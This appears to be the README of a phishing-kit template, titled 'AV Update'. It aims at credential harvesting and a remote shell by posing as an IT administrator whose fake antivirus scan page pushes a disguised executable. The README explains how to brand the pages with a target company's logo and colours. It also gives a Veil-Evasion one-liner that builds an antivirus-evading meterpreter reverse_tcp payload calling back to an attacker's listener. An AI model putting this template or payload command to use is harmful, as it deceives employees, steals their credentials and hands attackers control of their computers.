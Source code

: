 # AV Update Template

**Objective:** Credential harvesting *and* shell

## Pretext:
Spoofing as an IT administrator, you're pushing out new antivirus software
and need users to help run an automated scan to see if the new software was
pushed to their computer and is up-to-date. After the scan page reaches
around 70%, the page redirects and notifies the user that they need to
download and run a file becuase their AV is out of date.

## Things you'll need to change:
* File: ./login: 
  * name="logo" -> update to the company logo
  * Store company logo in the images folder. name it logo.png

* File: ./scan: 
  * name="logo" -> update to company logo

* File: /include/style-login-new.css
  * footer#bottom -> update the background:# to the spoofed company color if wanted. 
  * header -> update background-color:# to spoofed company color if wanted.
* File: PartnerPlus_Antivirus_v3.5.3.exe
  * Create your own executable file. MSFVenom gets popped by AV, so use Veil if possible. Instructions are below.

## Creating your own Executable using Veil Framework:
1. Setting up Veil-Evasion 
  a. git clone git@github.com:Veil-Framework/Veil-Evasion.git
  b. cd veil-Evasion
  c. ./setup/setup.sh -s
2. Creating a payload
  a. you can use the step-by-step instructions found in step 2.b. or modify and use the one-liner below
    * ` ./Veil-Evasion.py  -l  python -p python/b64_substitution  -o trytofindthis –msfpayload windows/meterpreter/reverse_tcp –msfoptions LHOST=<listening box> LPORT=443`
  b. tutorial: https://sathisharthars.wordpress.com/2014/06/07/evading-antivirus-using-veil-framework-in-kali-linux/
3. **MAKE SURE YOU NAME IT** PartnerPlus_Antivirus_v3.5.3.exe or you'll have to edit the 'failed' page.
